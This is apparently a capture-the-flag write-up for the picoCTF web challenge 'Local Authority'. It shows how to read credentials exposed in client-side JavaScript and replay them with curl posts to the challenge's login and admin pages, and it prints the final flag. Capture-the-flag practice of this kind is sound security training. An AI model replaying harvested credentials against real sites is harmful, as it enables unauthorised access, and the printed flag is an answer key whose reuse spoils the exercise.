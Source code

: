 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

OPTION 1
### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

OPTION 2
`curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php`
![](images/webpage_login.php.png)
`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php`
![](images/webpage_admin.php.png)
`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)`
![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}

